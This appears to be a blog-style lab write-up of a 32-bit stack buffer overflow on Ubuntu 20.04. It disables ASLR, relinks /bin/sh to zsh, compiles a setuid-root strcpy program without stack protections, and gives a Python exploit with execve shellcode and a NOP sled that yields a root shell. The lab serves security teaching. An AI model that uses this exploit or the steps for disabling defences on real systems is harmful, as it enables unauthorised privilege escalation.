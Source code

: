 ```yaml
---
title: "Stack Buffer Overflow"
date: 2021-01-31T14:47:41+08:00
draft: false
---
```


The goal of the following experiments is to exploit buffer overflow attack and get the root privilege of the shell. 



## Setup

Environment:

1. Google cloud virtual machine: Ubuntu 20.04
2. Linux kernel version: 5.4.0 

Countermeasures:

1. ASLR (address space layout randomization) provided by the operating system
2. NX/DEP bit provided by the hardware architecture
3. StackGuard or canary mechanism provided by the compiler 

Check if ASLR is activated or not (default is 2):

```
$ cat /proc/sys/kernel/randomize_va_space 
2
```

Disable ASLR:

```
$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
```

In the most recent Ubuntu operating systems, the /bin/sh points to the /bin/dash. Dash can prevent itself from being executed in a Set-UID process since it detects if the effective UID equals to real UID or not. More details about dash history can be found [here](https://bugs.launchpad.net/ubuntu/+source/dash/+bug/1215660). 

```
$ cd /bin && ls -l | grep "sh"
lrwxrwxrwx 1 root   root            4 Jan 29 23:22 sh -> dash
```

So we use another shell called zsh that does not have such a security countermeasure. 

```
$ sudo ln -sf /bin/zsh /bin/sh
```



## Vulnerable program

Here is a vulnerable program. It reads something from a file called badfile, then copy the content into the buffer. The program (the function strcpy()) does not limit the input from the user, so we can exploit this vulnerability. That is, we can make the program crash or execute some malicious code with buffer overflow attack. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#ifndef BUF_SZ 
#define BUF_SZ 100
#endif 

int bof(char *str)
{
    char buffer[BUF_SZ]; 
    strcpy(buffer, str);        // buffer overflow attack 
    return 1; 
}

int main(int argc, char** argv)
{
    char str[517]; 
    FILE* badfile; 

    badfile = fopen("badfile", "r"); 
    fread(str, sizeof(char), 517, badfile);     // read contents from badfile
    bof(str);                                   // copy to the buffer
    printf("Return properly\n"); 

    return 1; 
}
```

Compile the vulnerable program as follows, the flag "-z execstack" means to make the stack executable (since stacks are non-executable by default) and "-fno-stack-protector" means to disable the StackGuard protection. 

```
$ gcc -DBUF_SZ=100 -m32 -g -o stack-dbg -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack 
```

```
$ ls -l | grep "stack"
-rwsr-xr-x 1 root ychin_chuang 15708 Jan 31 08:10 stack
```

Use gdb debugger to figure out the distance between the buffer and return address. As you can see, the distance is 0xffffd2a8 - 0xffffd23c  + 4 (the size of ebp) = 112. 

![](https://github.com/chuang76/image/blob/master/ch2-1.PNG?raw=true)



## Payload

The shellcode in the following exploit program aims to execute "/bin/sh". We can use NOP-sled as a strategy to hit the start of our shellcode. NOP (0x90) means do nothing in the CPU instruction, so we can just slide in the buffer until reach the shellcode. Note that `ret` is 0xffffd2a8 plus some number. That is because the gdb pushes some environment data into the stack before running the program. Since the stack grows downwards in x86 processors, the actual frame pointer without debugging mode will be larger than 0xffffd2a8. 

```
#!/usr/bin/python3

import sys 
shellcode = (
        "\x31\xc0"
        "\x50"
        "\x68""//sh"
        "\x68""/bin"
        "\x89\xe3"
        "\x50"
        "\x53"
        "\x89\xe1"
        "\x99"
        "\xb0\x0b"
        "\xcd\x80"
    ).encode('latin-1')

# fill with NOPs 
content = bytearray(0x90 for i in range(517))

start = 517 - len(shellcode)
content[start:] = shellcode
ret = 0xffffd2a8 + 120     
offset = 112 
L = 4                       # 32-bit 

# modify the return address
content[offset:offset+L] = (ret).to_bytes(L, byteorder='little')

with open('badfile', 'wb') as f:
    f.write(content)
```



## Launch the attack

```
$ rm badfile
$ python3 exploit.py 
$ ./stack 
# whoami 
root 
```

![](https://github.com/chuang76/image/blob/master/ch2-2.png?raw=true)

